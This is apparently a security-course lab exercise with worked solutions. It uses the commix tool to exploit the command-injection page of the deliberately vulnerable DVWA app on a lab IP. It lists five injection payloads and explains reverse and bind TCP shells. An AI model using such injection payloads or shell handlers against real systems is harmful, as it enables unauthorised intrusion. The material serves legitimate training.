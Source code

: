 # Scanning with commix
In this exercise, you'll
- Use commix to exploit DVWA
- Study new injection payloads
- Explore commix's built-in "pseudo terminal"

---

## Instructions
- Use commix to attack the command injection page.
  - Remember to specify a `--data` attribute.
  - Remember to specify a `--cookie` attribute.
  > **Solution**: The command looks like: `commix -u "http://192.168.99.100/vulnerabilities/exec/#" --data="ip=127.0.0.1&Submit=submit" --cookie="PHPSESSID=lsenpqn3k0vk7d2re6rhdbe342;security=low"`

- When commix identifies a successful payload, record it, and press `n` to proceed to the next one. Record 5 payloads before proceeding. **Note**: If you get dropped into a pseudo-shell automatically, simply type `back`.
  - **Payload 1**: ;echo FZYIQV$((55+15))$(echo FZYIQV)FZYIQV
  - **Payload 2**: `;echo DZSRFQ$((18+71))$(echo DZSRFQ)DZSRFQ`
  - **Payload 3**: `%3Becho JCDNWJ$((56+32))$(echo JCDNWJ)JCDNWJ`
  - **Payload 4**: `%26echo GTAKDM$((92+10))$(echo GTAKDM)GTAKDM`
  - **Payload 5**: `|echo GLOILL$((10+65))$(echo GLOILL)GLOILL`

- For each of the payloads above, identify which character enables the injection.
  > **Solutions**
  >  - The payloads start with `;`, which separates commands; `|`, which also allows you to run two commands on a single line; `%3B`, which is the URL-encoded version of `;`; and `%26`, the percent-encoded version of `&`, which you'll study soon.

- Proceed to the next payload, and press `Y` when prompted to enter a pseudo-terminal.

- Press `?` to list available options. Work with a partner to research the last two options. Record definitions for each below.
  - **reverse_tcp**: A reverse TCP connection is a connection from the target/victim _back_ to a listening port on the attacking machine.
  - **bind_tcp**: A bind TCP connection is a connection from the attacking machine _to_ a listening port on the victim machine.


- Refer to the documentation at: <https://github.com/commixproject/commix/wiki/Reverse-Shells>

- What does the reverse tcp handler allow you to do?

  > **Solution**: The reverse TCP handler allows you to open a connection back to a netcat listener on your attacking machine. This, in turn, lets you transfer arbitrary data to writable directories on the target. Score.
